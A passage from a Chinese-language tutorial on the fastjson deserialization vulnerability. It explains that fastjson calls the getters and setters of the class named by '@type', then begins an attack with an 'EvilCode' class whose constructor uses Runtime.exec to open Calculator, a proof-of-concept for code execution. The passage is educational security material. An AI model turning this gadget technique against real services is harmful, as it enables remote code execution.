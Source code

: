 
运行输出结果是，

```
jsonStr1:{"age":25,"name":"lucas","number":"001"}
jsonStr2{"@type":"com.app.fastjson.Student","age":25,"name":"lucas","number":"001"}
lucas
25
001
```
我们把上面的代码改下，使用`jsonStr2`进行反序列化的，
```
JSONObject jsonObject = JSON.parseObject(jsonStr2);
```

此时输出的结果是，
```
...
jsonStr2{"@type":"com.app.fastjson.Student","age":25,"name":"lucas","number":"001"}
setAge
setName
setNumber
getAge
getName
getNumber
getSecret
lucas
25
001
```

序列化的结果一个带了类信息(使用`SerializerFeature.WriteClassName`可以输出类信息)，一个没有带。这两个字符串都可以进行反序列成JsonObject对象，但是你应该已经注意到了，使用前者序列化的时候，调用了类对象的getter和setter方法。

**因为fastjson在处理以@type形式传入的类的时候，会默认调用该类的共有set\get\is函数。**

请你记住这个结论，因为它正是漏洞的关键所在。

### 攻击
既然反序列化的时候会执行getter和setter方法，那我们是不是可以在这些方法里加入攻击的代码，然后
fastjson返序列化的时候调用，不就达到了攻击的目的了吗。

我们先来构造一次攻击，等下再解释原理。

首先构造一段恶意代码，很简单就是在构造函数里打开本地的一个计算器应用。
```
public class EvilCode extends AbstractTranslet {

    public EvilCode() throws IOException {
        Runtime.getRuntime().exec("open /Applications/Calculator.app");
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public static void main(String[] args) throws IOException {
        EvilCode evilCode = new EvilCode();
    }
}
```
运行的效果如下图所示，
